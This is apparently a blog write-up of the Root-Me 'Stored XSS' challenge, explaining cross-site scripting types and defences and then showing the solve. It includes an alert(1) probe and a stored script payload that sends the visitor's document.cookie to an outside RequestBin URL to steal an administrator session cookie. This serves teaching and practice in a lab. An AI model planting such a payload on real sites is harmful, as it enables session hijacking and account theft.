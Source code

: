 ```yaml
---
title : Stored XSS
date : 2024-01-02 13:13:00 +0100
categories : [Root-me, Web Client]
tags : [security breach, xss] # TAGS names should always be lowercase
---
```

# Cross-Site Scripting

This [Root-Me](https://www.root-me.org/?page=news&lang=en) challenge introduces the XSS security breach. Let's define the what this vulnerability is.

An XSS (Cross-Site Scripting) flaw is a common security vulnerability that can occur in web applications. It allows attackers to inject and execute malicious code (usually JavaScript) into web pages viewed by other users.

The XSS attack occurs when the web application fails to filter properly data provided by the user and inserts it directly into web pages without encoding the data. This allows an attacker to inject malicious code that will be executed by users' browsers.

There are different types of XSS vulnerabilities:

* **Stored XSS** : Malicious data is stored on the server and displayed on web pages viewed by users. For example, an attacker could inject JavaScript code into a comment field which would then be displayed on a web page, affecting all users viewing that page.

* **Reflected XSS** : Malicious data is included in the page URL and sent back to the server, which then sends it back in the response without filtering it properly. This allows the attacker to create links or direct users to pages containing malicious code.

* **DOM-based XSS** : The XSS attack occurs at the level of the client-side Document Object Model (DOM). The attacker directly modifies the DOM of the web page, which can lead to the execution of malicious code by the user's browser.

XSS attacks can have serious consequences, such as stealing user sessions, disclosing sensitive information, distributing malware or modifying page content. To protect against XSS vulnerabilities, it is essential to implement appropriate security measures, such as validating and filtering input data, encoding data when it is displayed on web pages, and using security mechanisms such as **Content Security Policies** (CSP) to limit authorized script sources.

# Resolution of the challenge

Here the vulnerability is located in the comment section of the web page. It is a **stored XSS** because the comments are saved on the web page. In order to reveal it, I uploaded a comment containing this command :

```html
<script> alert(1) </script>
```
When I sent it, the alert immediatly showed on my browser.
![alert](/img/stored-xss/alert.png)
*XSS vulnerability discovered*

The comment was saved in the *Posted messages* section.
![comment](/img/stored-xss/comment.png)
*Testing for XSS*

Now that the XSS has been detected, I created a [RequestBin](https://pipedream.com/requestbin) in order to steal the administrator session cookie. I sent a command to redirect the web page to my RequestBin : 
```html
<script>document.location='https://eon2qokz2s82vss.m.pipedream.net?cookies =' + document.cookie;</script>
```
Lastly, I received two requests, the first one contained the Google Analytics cookies and the last one provided me the admin cookie.

![answer](/img/stored-xss/answer.png)
*Reception of the cookies*

The password was in the cookie !


